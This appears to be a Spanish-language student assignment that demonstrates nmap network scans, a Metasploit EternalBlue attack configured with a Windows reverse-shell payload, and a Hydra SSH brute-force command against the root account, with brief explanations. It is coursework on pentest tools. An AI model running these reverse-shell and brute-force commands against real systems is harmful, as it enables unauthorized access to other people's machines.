


# Final Módulo 4 - Aliaga

## nmap

- Nombre de la tool: nmap
- Función de la misma: según la página web oficial, nmap es una herramienta gratis y de código abierto para descubrimiento de redes y auditoría de seguridad.
- Opinión personal de uso:

```console
# ping a toda una subred
$ nmap -sP 192.168.0.0/24
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-10 13:00 -03
Nmap scan report for 192.168.0.1
Host is up (0.0027s latency).
Nmap scan report for 192.168.0.103
Host is up (0.00047s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 21.58 seconds

# ver puertos abiertos de servicios web 
# T --> escan TCP o completo - 3 way handshake
$ nmap -sT -p 80,443 192.168.0.0/24
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-10 13:04 -03
Nmap scan report for 192.168.0.1
Host is up (0.0045s latency).

PORT    STATE    SERVICE
80/tcp  open     http
443/tcp filtered https

Nmap scan report for 192.168.0.101
Host is up (0.061s latency).

PORT    STATE  SERVICE
80/tcp  closed http
443/tcp closed https

Nmap scan report for 192.168.0.103
Host is up (0.00059s latency).

PORT    STATE  SERVICE
80/tcp  closed http
443/tcp closed https

Nmap done: 256 IP addresses (3 hosts up) scanned in 22.84 seconds
# en este caso, todos los puertos de servicios web están cerrados ya que no hay ningún servidor web activo

# usando la opción -sS para stealthy nos muestra todos los host de la red
# no se envía el último ACK - no se completa el 3 way handshake
~$ sudo nmap -sS 192.168.0.0/24
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-10 13:11 -03
Nmap scan report for 192.168.0.1
Host is up (0.0017s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
1900/tcp open  upnp
MAC Address: 38:6B:1C:52:EA:A5 (Shenzhen Mercury Communication Technologies)

Nmap scan report for 192.168.0.105
Host is up (0.034s latency).
All 1000 scanned ports on 192.168.0.105 are in ignored states.
Not shown: 1000 filtered tcp ports (no-response)
MAC Address: 64:6C:80:69:1A:F7 (Chongqing Fugui Electronics)

Nmap scan report for 192.168.0.106
Host is up (0.0062s latency).
All 1000 scanned ports on 192.168.0.106 are in ignored states.
Not shown: 1000 filtered tcp ports (no-response)
MAC Address: 70:4D:7B:65:B4:E6 (Asustek Computer)

Nmap scan report for 192.168.0.103
Host is up (0.000014s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
3306/tcp open  mysql
8080/tcp open  http-proxy

Nmap done: 256 IP addresses (4 hosts up) scanned in 19.87 seconds
```

Estos son solo unos ejemplos de las muchas funcionalidades de nmap. Además, nmap cuenta con el NSE (nmap scripting engine) para desarrollar o _usar_ scripts y así personalizar el escaner que se hace de la red.

## metasploit

- Nombre de la tool: metasploit
- Función de la misma: metasploit es una solución de seguridad que junta diversas herramientas integradas para lograr un pentest simple. Metasploit trata de automatizar a través del uso de módulos la tarea del equipo de seguridad al proporcionar herramientas simples de auditoría.
- Opinión personal de uso: cómo hacer un ataque automático usando el módulo eternalblue

```console
msfconsole
crear base de datos?
search eternalblue
use <#>
options <<--- ver las opciones
set rhosts <ip>
exploit

msf6 auxiliary(scanner/smb/smb_ms17_010) > exploit

[-] 192.168.0.106:445     - Rex::ConnectionTimeout: The connection with (192.168.0.106:445) timed out.
[*] 192.168.0.106:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

search eternalblue
use 0
options
set rhosts 192.168.0.106
show payloads
set payload windows/x64/shell_reverse_tcp
set lhost 192.168.0.106
set lport 443 <<-- un puerto que no vaya a bloquear el firewall
exploit
```

Con una serie de comandos simples podemos lograr iniciar sesión en una máquina windows - usando los comandos expuestos arriba podríamos lograr obtener un command prompt en windows.



## hydra

- Nombre de la tool: hydra
- Función de la misma: hydra es una herramienta usada para realizar ataques de fuerza bruta para crackear contraseñas de usuarios
- Opinión personal de uso: si bien tiene una GUI, este es un ejemplo de uso del CLI

```console
hydra -l root -P /ubicacion/del/archivo.txt 192.168.1.14 -t 4 ssh
```

Este comando lo que hace es usar un diccionario de contraseñas para intentar averiguar la contraseña del usuario root. 

- -l para indicar el nombre de inicio de sesión o -L para indicar una lista de nombres de inicio de sesión
- -P para probar una lista de contraseñas
- -t cantidad de tareas en paralelo




